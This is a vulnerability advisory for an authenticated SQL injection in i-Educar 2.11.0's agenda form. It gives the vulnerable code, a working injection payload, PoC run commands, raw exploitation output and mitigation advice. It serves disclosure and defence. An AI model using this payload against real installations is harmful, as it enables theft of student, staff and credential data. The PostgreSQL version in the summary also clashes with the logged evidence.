

# Error-based SQL injection in `agenda_admin_cad.php` (`nm_agenda`)

- **Product:** i-Educar 2.11.0 (latest release, tag `2.11.0`) (portabilis/i-educar)
- **Type / CWE:** CWE-89 Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection') — https://cwe.mitre.org/data/definitions/89.html
- **Severity:** `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` = **8.8 High** (estimated from the vector, not an upstream score)
- **Affected version:** 2.11.0 (latest release, tag `2.11.0`)
- **Endpoint(s):** `POST /intranet/agenda_admin_cad.php` — parameter(s): `nm_agenda` (with `tipoacao=Novo` or `tipoacao=Editar`)
- **Authentication:** login required (verified with `admin`; any profile able to open the agenda form)
- **Status:** VERIFIED against a local i-Educar 2.11.0 lab (2026-09-10)

## Summary

`Novo()` interpolates the `nm_agenda` property inside single quotes in an
`INSERT INTO portal.agenda ...` statement, and `Editar()` does the same in an
`UPDATE ... SET nm_agenda = '...'`. The property comes straight from `$_POST`.
A single quote breaks out of the string context; the PoC injects
`|| CAST((SELECT version()) AS INT) ||`, which makes PostgreSQL raise
`invalid input syntax for type integer: "PostgreSQL 18.6 ..."` and returns the
database version inside the HTTP 500 error page.

## Root cause

`ieducar/intranet/agenda_admin_cad.php:179` (`Editar()`):

```php
if (is_string(value: $this->nm_agenda)) {
    $set .= ", nm_agenda = '{$this->nm_agenda}'";
}
...
$db->Consulta(consulta: "UPDATE portal.agenda SET ref_ref_cod_pessoa_exc = '{$this->pessoa_logada}', data_edicao = NOW() $set WHERE cod_agenda = '{$this->cod_agenda}'");
```

`ieducar/intranet/agenda_admin_cad.php:161` (`Novo()`):

```php
$db->Consulta(consulta: "INSERT INTO portal.agenda( ref_ref_cod_pessoa_cad, data_cad, nm_agenda $campos) VALUES( '{$this->pessoa_logada}', NOW(), '{$this->nm_agenda}' $values)");
```

`is_string()` only checks the PHP type, not the content, and `clsBanco` builds
the query by concatenation without parameter binding.

## Proof of concept

1. Log in.
2. Control request:
   `POST /intranet/agenda_admin_cad.php` with
   `tipoacao=Novo&nm_agenda=i_explorar_poc09_benign` → `302` to
   `agenda_admin_lst.php` (row created; the PoC deletes it afterwards).
3. Injection request with
   `tipoacao=Novo&nm_agenda=teste' || CAST((SELECT version()) AS INT) || '`
   → `HTTP 500` and the response contains
   `invalid input syntax for type integer: "PostgreSQL 18.6 on x86_64-pc-linux-musl..."`.
4. The PoC extracts only the error line and removes the control row.

```bash
python3 i-explorar.py            # pick [09]
# or standalone:
python3 vulns/09-agenda-sql-injection/poc.py --target http://127.0.0.1:8080
```

The injected statement aborts on the cast error, so no row is persisted by the
injection itself.

## Evidence

Raw output of the PoC run against the 2.11.0 release (`evidence/run-20260911T001725Z.log`), pasted
verbatim:

```
# i-explorar raw evidence
# started_at: 2026-09-11T00:17:25.028874+00:00
# host: -03
# target: http://127.0.0.1:8080

### control: POST tipoacao=Novo nm_agenda=i_explorar_poc09_benign
HTTP 302 location=agenda_admin_lst.php

### injection: POST tipoacao=Novo nm_agenda=teste' || CAST((SELECT version()) AS INT) || '
HTTP 500 content-length=1293294

--- extracted PostgreSQL error lines ---
Illuminate\Database\QueryException: SQLSTATE[22P02]: Invalid text representation: 7 ERROR: invalid input syntax for type integer: "PostgreSQL 17.11 on x86_64-pc-linux-musl, compiled by gcc (Alpine 15.2.0) 15.2.0, 64-bit" (Connection: pgsql, Host: postgres, Port: 5432, Database: ieducar, SQL: INSERT 
SQLSTATE[22P02]: Invalid text representation: 7 ERROR: invalid input syntax for type integer: "PostgreSQL 17.11 on x86_64-pc-linux-musl, compiled by gcc (Alpine 15.2.0) 15.2.0, 64-bit" (Connection: pgsql, Host: postgres, Port: 5432, Database: ieducar, SQL: INSERT INTO portal.agenda( ref_ref_cod_pess
window.data = {"report":{"notifier":"Laravel Client","language":"PHP","framework_version":"12.61.0","language_version":"8.4.25","exception_class":"Illuminate\\Database\\QueryException","seen_at":1789085845,"message":"SQLSTATE[22P02]: Invalid text representation: 7 ERROR: invalid input syntax for typ
--- end extracted PostgreSQL error lines ---
$ docker compose --project-directory /home/pollo/disclosures/i-explorar/lab/i-educar -f /home/pollo/disclosures/i-explorar/lab/i-educar/docker-compose.yml exec -T postgres psql -U ieducar -d ieducar -tAc DELETE FROM portal.agenda_responsavel WHERE ref_cod_agenda IN (SELECT cod_agenda FROM portal.agenda WHERE nm_agenda = 'i_explorar_poc09_benign'); DELETE FROM portal.agenda WHERE nm_agenda = 'i_explorar_poc09_benign';

--- psql output ---
DELETE 1
DELETE 1
--- end psql output ---
# finished_at: 2026-09-11T00:17:25.811690+00:00
```

## Screenshots



Caption: raw PoC log rendered as an image — control request `302`, injection
request `500`, and the PostgreSQL version leaked in the extracted error line.

## Impact

An authenticated user can inject arbitrary SQL into the INSERT/UPDATE
statement:

- extract any data readable by the application database user (student, staff,
  grade and credential tables) through error-based or blind subqueries;
- modify other agenda rows by manipulating the statement;
- cause errors or resource-intensive queries (limited DoS).

The database user `ieducar` owns every schema used by the application, so the
reachable data is the full application database.

## Timeline

- 2026-09-10: local reproduction against the i-explorar 2.11.0 lab (this advisory)
- not yet reported to the maintainer — no remote or external contact was made
  from this repository

## Mitigation

- Use parameter binding (`$1`, `$2`, ...) for all values, including
  `nm_agenda`, `cod_agenda` and the person ids.
- Treat `clsBanco` string concatenation as unsafe by default; add a
  parameterized helper for the legacy code paths.
- Restrict the database user to the required privileges instead of schema
  ownership, so a successful injection reaches less data.

## References

- Upstream repository: https://github.com/portabilis/i-educar
- CWE-89: https://cwe.mitre.org/data/definitions/89.html
- This advisory (canonical URL): https://github.com/i-explorar/i-explorar/blob/main/vulns/09-agenda-sql-injection/README.md
